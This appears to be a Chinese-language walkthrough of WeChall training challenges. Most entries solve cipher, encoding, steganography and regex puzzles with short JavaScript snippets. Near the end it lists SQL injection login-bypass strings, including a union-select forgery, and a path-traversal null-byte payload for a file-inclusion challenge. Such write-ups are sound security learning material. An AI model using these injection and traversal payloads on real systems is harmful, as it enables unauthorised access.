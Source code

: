 # [参考链接](http://www.wechall.net/challs)

## [答案参考链接](http://winkar.github.io/2015/01/24/wechall.html)


1. [参考链接](http://www.wechall.net/challenge/training/get_sourced/index.php)
    * 点击右键查看源码

1. [参考链接](http://www.wechall.net/challenge/training/stegano1/index.php)
    * [图像相关知识参考链接](https://blog.csdn.net/u013378306/article/details/65936192)
    * [隐写术参考链接](https://blog.csdn.net/u011028345/article/details/75311346)
    * 通过图片编辑工具查看ascII值
    * window winhex、nodepad++ hex插件
    * [参考资料](https://blog.csdn.net/binwalker/article/details/77716326)
    * linux自带的
        ```
            hexdump -C file.name
        ```
        
1. [参考链接](http://www.wechall.net/challenge/training/crypto/caesar/index.php)
    * 恺撒加密[参考资料](https://www.cnblogs.com/dmego/p/6007143.html)
        ```ecmascript 6
               let arr = 'QEB NRFZH YOLTK CLU GRJMP LSBO QEB IXWV ALD LC ZXBPXO XKA VLRO RKFNRB PLIRQFLK FP ZFACKXLLYXXX'.split('')
               for (let i = 0; i < 26; i++) {
                 let result = arr.map(item => {
                   if (item === ' ') {
                     return item
                   }
                   return String.fromCharCode((item.charCodeAt(0) + i - 65) % 26 + 65).toLowerCase()
                 })
                 console.log(result.join(''))
               }
        ```
1. [参考链接](http://www.wechall.net/challenge/training/www/robots/index.php)
    * robots.txt
    
1. [参考链接](http://www.wechall.net/challenge/training/encodings/ascii/index.php)
    ```ecmascript 6
        let arr = [84, 104, 101, 32, 115, 111, 108, 117, 116, 105, 111, 110, 32, 105, 115, 58, 32, 99, 100, 101, 100, 103, 100, 97, 112, 104, 99, 110, 102]
        console.log(arr.map(item => String.fromCharCode(item)).join(''))
    ```

1. [参考链接](http://www.wechall.net/challenge/training/encodings/url/index.php)
    ```ecmascript 6
       decodeURIComponent('%59%69%70%70%65%68%21%20%59%6F%75%72%20%55%52%4C%20%69%73%20%63%68%61%6C%6C%65%6E%67%65%2F%74%72%61%69%6E%69%6E%67%2F%65%6E%63%6F%64%69%6E%67%73%2F%75%72%6C%2F%73%61%77%5F%6C%6F%74%69%6F%6E%2E%70%68%70%3F%70%3D%62%6C%6C%61%65%65%67%69%6E%68%66%68%26%63%69%64%3D%35%32%23%70%61%73%73%77%6F%72%64%3D%66%69%62%72%65%5F%6F%70%74%69%63%73%20%56%65%72%79%20%77%65%6C%6C%20%64%6F%6E%65%21')
    ```
    
1. [参考链接](http://www.wechall.net/challenge/training/programming1/index.php)
    * 先从浏览器获取cookie
    ```ecmascript 6
        const http = require('http')
        const opn = require('opn')
        
        const request = http.request({
            host: 'www.wechall.net',
            path: '/challenge/training/programming1/index.php?action=request',
            headers: {
                cookie: 'WC=11283876-43763-a8UttpPeOJGjwdza',
                'Content-Type': 'application/x-www-form-urlencoded'
            }
        }, (res) => {
            res.setEncoding('utf8')
            res.on('data', (data) => {
                opn('http://www.wechall.net/challenge/training/programming1/index.php?answer=' + data)
            })
        })
        request.write('')
        request.end()
    ```

1. [参考链接](http://www.wechall.net/challenge/training/regex/index.php)
    * [正则表达式三十分钟入门](https://www.cnblogs.com/sunny3096/p/7201403.html)
    * [js match结果](https://www.jianshu.com/p/f09508c14e65)
    * /^$/
    * /^wechall$/
    * /^(wechall4?)\.(?:jpg|gif|tiff|bmp|png)$/
    >>>
        (?=exp) 'sing'.match(/\w(?=ing)/) 匹配后面是ing的字符，匹配结果：s
        (?<=exp) 'sing'.match(/(?<=sin)\w/) 匹配前面是sin的字符，匹配结果：g
        (?!exp) 'sing'.match(/\w{2}(?!\w)/) 匹配两个字符，但是后面不能有字符，匹配结果：ng
        (?<!exp) 'sing'.match(/(?<!\w)\w{2}/) 匹配两个字符，但是前面不能有字符，匹配结果：si
    >>>
    
1. [参考链接](http://www.wechall.net/challenge/training/encodings1/index.php)
    * [解题思路](https://blog.csdn.net/smoggyxhdz/article/details/79885903)
    * 0-127基本字符, 128-255扩展字符.
    * ASCII 码使用指定的 7 位或 8 位二进制数组合来表示 128 或 256 种可能的字符。标准 ASCII 码使用 7 位二进制数来表示所有的大写和小写字母，数字 0 到 9、标点符号，以及在美式英语中使用的特殊控制字符。目前许多基于 x86 的系统都支持使用扩展（或“高”）ASCII。扩展 ASCII 码允许将每个字符的第 8 位用于确定附加的 128 个特殊符号字符、外来语字母和图形符号。
    * [编码相关的一些发展史](https://blog.csdn.net/dk_0520/article/details/70157426)
    
1. [参考链接](http://www.wechall.net/challenge/training/prime_factory/index.php)
    ```ecmascript 6
       function prime(num) {
         let i = 2
         while (i <= num / 2) {
           if (num % i === 0) {
             return false
           }
           i++
         }
         return true
       }
   
       let start = 1000000
       let result = []
       while (result.length < 2) {
         let sum = eval(start.toString().split('').join('+'))
         if (prime(start) && prime(sum)) {
           result.push(start)
         }
         start++
       }
       console.log(result.join(''))
    ```

1. [参考链接](http://www.wechall.net/challenge/training/php/lfi/up/index.php)
    * [文件上传常用方式](https://blog.csdn.net/qq_25987491/article/details/79965742)
    * [php%00截断](https://www.freebuf.com/articles/web/179401.html)
    * ../../solution.php%00

1. [参考链接](http://www.wechall.net/challenge/php0817/index.php)
    * which=solution
    ```ecmascript 6
       const str = 'oWdnreuf.lY uoc nar ae dht eemssga eaw yebttrew eh nht eelttre sra enic roertco drre . Ihtni koy uowlu dilekt  oes eoyrup sawsro don:wf lldreslsas.b'
       for (let i = 2; i <= 5; i++) {
         let position = 0
         while (position < str.length) {
           console.log(str.substr(position, i).split('').reverse().join(''))
           position = position + i
         }
         console.log('--------------------------------------')
       }
    ```

1. [参考链接](http://www.wechall.net/challenge/training/crypto/simplesub1/index.php)
    * [单表代替密码原理及算法实现](https://www.cnblogs.com/ECJTUACM-873284962/p/7872114.html)
    * [自动置换网址](https://quipqiup.com/)
    
1. [参考链接](http://www.wechall.net/challenge/training/crypto/caesar2/index.php)
    ```ecmascript 6
          let str = '57 7F 7F 74 20 7A 7F 72 3C 20 09 7F 05 20 03 7F 7C 06 75 74 20 7F 7E 75 20 7D 7F 02 75 20 73 78 71 7C 7C 75 7E 77 75 20 79 7E 20 09 7F 05 02 20 7A 7F 05 02 7E 75 09 3E 20 64 78 79 03 20 7F 7E 75 20 07 71 03 20 76 71 79 02 7C 09 20 75 71 03 09 20 04 7F 20 73 02 71 73 7B 3E 20 67 71 03 7E 37 04 20 79 04 4F 20 41 42 48 20 7B 75 09 03 20 79 03 20 71 20 01 05 79 04 75 20 03 7D 71 7C 7C 20 7B 75 09 03 00 71 73 75 3C 20 03 7F 20 79 04 20 03 78 7F 05 7C 74 7E 37 04 20 78 71 06 75 20 04 71 7B 75 7E 20 09 7F 05 20 04 7F 7F 20 7C 7F 7E 77 20 04 7F 20 74 75 73 02 09 00 04 20 04 78 79 03 20 7D 75 03 03 71 77 75 3E 20 67 75 7C 7C 20 74 7F 7E 75 3C 20 09 7F 05 02 20 03 7F 7C 05 04 79 7F 7E 20 79 03 20 02 78 79 74 7E 02 71 71 75 7D 7D 7F 3E'
          str = str.split(' ')
          const arr = str.map(item => String.fromCharCode('0x' + item))
          for (let i = 0; i < 128 - 26; i++) {
            let result = arr.map(item => {
              return String.fromCharCode((item.charCodeAt(0) + i) % 128 + 26).toLowerCase()
            })
            if (/^[a-zA-Z]/.test(result[0])) {
              console.log(i, result.join(''))
            }
          }
    ```
    
1. [参考链接](http://www.wechall.net/challenge/training/crypto/digraph/index.php)
    * 网上的答案都是直接猜测第一个单词：congratulations
    * 个人表示不能接受，但是又没有其他更好的解决思路
    * C o n g r a t u l a t i o n s ! | y o u | d e c r y p t e d | t h i s | m e s s a g e | s u c c e s s f u l l y! | H a s | n o t | too | d i f f i c u l t | e i t h e r ? | w a s | i t sr | h e l l ? | g o o d | j o b! | ta n t e r | t h i s | k e y w o r d | as | s o l u t i o n : | s s n d g i m a i f g l !
    
1. [参考链接](http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php)
    * [mysql注入](https://www.cnblogs.com/pursuitofacm/p/6706961.html)
    * \# -- 都是mysql的注释
    * admin' or 1 = 1
    * admin'#
    * admin' or '1'='1
    * admin' --
    
1. [参考链接](http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php)
    * username: xxx' union select 1, 'admin', md5('1') #
    * username: xxx' union select 1, 'admin' as username, md5('1') as password where username='admin' #
    * password: 1

1. [参考链接](http://www.wechall.net/challenge/training/math/pyramid/index.php)
    * a^3/18^.5
